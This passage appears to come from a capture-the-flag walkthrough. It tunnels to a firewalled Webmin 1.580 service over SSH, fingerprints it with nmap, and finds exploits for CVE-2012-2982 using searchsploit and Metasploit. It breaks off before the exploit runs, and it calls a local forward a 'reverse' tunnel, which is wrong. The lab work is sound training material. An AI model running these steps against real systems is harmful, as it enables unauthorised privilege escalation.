 Port 10000 is blocked via a firewall rule (`iptables`). Use a reverse `ssh` tunnel:

    # ssh -L 10000:localhost:10000 agent47@<IP address target machine>

Browsing `http://127.0.0.1:10000` now shows a Webmin portal.

Check version in local machine:

    # nmap -sV -p 10000 127.0.0.1 -vv
    ...
    
    PORT      STATE SERVICE REASON  VERSION
    10000/tcp open  http    syn-ack MiniServ 1.580 (Webmin httpd)

Searchsploit:

    # searchsploit webmin 1.580  
    ---------------------------------------------- ---------------------------------
     Exploit Title                                |  Path
    ---------------------------------------------- ---------------------------------
    Webmin 1.580 - '/file/show.cgi' Remote Comman | unix/remote/21851.rb
    Webmin < 1.920 - 'rpc.cgi' Remote Code Execut | linux/webapps/47330.rb
    ---------------------------------------------- ---------------------------------
    Shellcodes: No Results
    Papers: No Results


[Searching for 21851 in exploit-db](https://www.exploit-db.com/exploits/21851) gives CVE: 2012-2982

## Privilege escalation with Metasploit

    # msfconsole -q
    [*] Starting persistent handler(s)...
    msf6 > search CVE-2012-2982
    
    Matching Modules
    ================
    
       #  Name                                      Disclosure Date  Rank       Check  Description
       -  ----                                      ---------------  ----       -----  -----------
       0  exploit/unix/webapp/webmin_show_cgi_exec  2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
    
    
    Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/webmin_show_cgi_exec
    